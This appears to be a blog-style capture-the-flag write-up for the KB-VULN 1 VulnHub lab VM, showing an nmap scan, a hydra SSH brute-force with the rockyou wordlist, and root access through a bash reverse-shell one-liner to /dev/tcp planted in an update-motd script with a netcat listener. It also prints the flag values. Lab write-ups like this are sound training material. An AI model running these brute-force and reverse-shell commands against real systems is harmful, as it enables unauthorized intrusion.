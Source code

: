 ```yaml
---
title: "KB-VULN: 1 |  CTF Writeup"
description: "KB-VULN CTF Writeup vulnhub.com"
layout: post
---
```


##RECON
{% highlight bash %}
nmap service scan: 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}

checking the source code showed me this comment:
{% highlight html %} 
<!-- Username : sysadmin -->
{% endhighlight %}

Running the username and the rockyou wordlist through hydra to bruteforce SSH:

{% highlight bash %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.106 -V

[22][ssh] host: 192.168.56.106   login: sysadmin   password: password1

{% endhighlight %}

Logging into SSH server and getting the first flag: 

{% highlight bash %}
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
{% endhighlight %}

Checking the passwd file on the system shows that the user eftipi can also login via ssh:

{% highlight bash %}
sysadmin@kb-server:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:KernelBlog VM:/home/sysadmin:/bin/bash
eftipi:x:1001:1001:,,,:/home/eftipi:/bin/bash
sysadmin@kb-server:~$ 
{% endhighlight %}

There is a clue as to the files we can write as the sysadmin user in the ftp directory
{% highlight bash %}
sysadmin@kb-server:~/ftp$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
{% endhighlight %}

We just need to add the following oneliner to the script and set up a netcat listener: 
{% highlight bash %}
bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/6666 <&1'
{% endhighlight %}
ATTACKER MACHINE: 
{% highlight bash %}
nc -lp 6666
{% endhighlight %}

{% highlight bash %}
root@kb-server:/root# cat flag.txt
cat flag.txt
1eedddf9fff436e6648b5e51cb0d2ec7
{% endhighlight %}
